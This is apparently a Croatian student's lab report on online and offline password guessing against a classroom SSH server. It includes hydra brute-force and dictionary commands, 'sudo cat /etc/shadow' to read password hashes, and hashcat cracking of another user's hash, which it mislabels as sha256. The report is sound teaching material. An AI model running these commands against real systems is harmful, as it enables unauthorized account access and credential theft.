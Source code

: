 # 5.laboratorijska vjezba

Naslov vježbe:

## **Online and Offline Password Guessing Attacks**

Na današnjoj vježbi ćemo probati online i offline password guessing napad. 

### ONLINE PASSWORD GUESSING:

Otvaramo Windows Terminal, gdje ćemo i raditi cijelu vježbu.

Pingamo a507 server local da provjerimo jesmo li na istom LAN-u, jer nam je nužan uvjet da uspješno komuniciramo sa serverom. To smo učinili na način:

```python
ping a507-server.local
```

Otvaramo local server da vidimo svoj username i IP address.

Username: maric_karlo

IP address: 10.0.15.7

Spajanje na server ostvarujemo korištenjem ssh klijenta naredbom —>

```python
ssh maric_karlo@10.0.15.7
```

Pokušali smo unijeti password kojeg naravno ne znamo, ali nas sustav odbija i nema rate limita. 

Sustav je podložan online napadu i to ćemo sada i napraviti, za što nam je potreban alat **hydra** koji je prethodno instaliran na uređaju**.**

Hintovi za password su:

- password je sastavljen od malih slova (lowercase) engleske abecede
- password ima između 4 i 6 znakova

Napad pomoću naredbe:

```python
hydra -l maric_karlo -x 4:6:a 10.0.15.7 -V -t 1 ssh
```

### Brojke:

Matematičkim izračunom smo našli da je password space jednak: 2^30.

Vrijeme koje nam treba za proći cijeli password space je: 2^24 minuta, a to je otprilike 2^5 godina, što je naravno ogromna količina vremena za pronaći jedan password.

Zato ćemo koristiti dictionary, te ćemo napraviti pre-computed dictionary attack. Preuzeli smo dictionary (za online i offline) koji nam je profesor pripremio: `wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g4/`,

te smo krenili pretrazivat sada to za online napad: `hydra -l maric_karlo -P dictionary/g1/dictionary_online.txt 10.0.15.7 -V -t 4 ssh`

Dictionary ima 860 passworda, pronasli smo svoj password isa tim passwordom i ulogiramo se na remote server pomoću ssg klijenta: 

```python
ssh maric_karlo@10.0.15.7

```

### OFFLINE PASSWORD GUESSING:

Nastavljamo tamo di smo stali, tj. na remote serveru. Nastavak je **offline password guessing** napad.

Koristimo hashcat, koji je vec instaliran na uređaju.

Da bi pristupili hashevima, pomoću sudo naredbe smo došli do foldera u kojima su pohranjeni: 

```python
sudo cat /etc/shadow
```

i unosimo password kojeg smo maloprije dobili.

Da vidimo ovi file, trebamo ga izvršiti kao administrator što mi to sada nismo.

Nakon ispisivanje liste korisnika, odabrali smo jednoga (ja sam odabrao **freddie_mercury**) i kopirali smo njegovu hash vrijednost, spremili je lokalno te smo probali **brute force** napadom koji nije bio uspješan.

Napad:

```python
hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
```

Slično kao i kod online password guessing napada, imamo dva hinta koji su:

- password se sastoji od malih (lowercase) slova u engleskoj abecedi
- password ima 6 znakova

Izvršavamo drugi napad:

```python
hashcat --force -m 1800 -a 0 hash.txt dictionary/g4/dictionary_offline.txt --status --status-timer 10
```

Sada iz dictionarija (offline naravno) usporeduje hash vrijednost koju pretvara sa sha256 u normalnu vrijednost. 

U jednom trenutku kada je pronašao password (”theare”) ulogirali smo se: 

```python
ssh freddie_mercury@10.0.15.7
```

 sa novim passwordom i uspješno smo se ulogirali na server.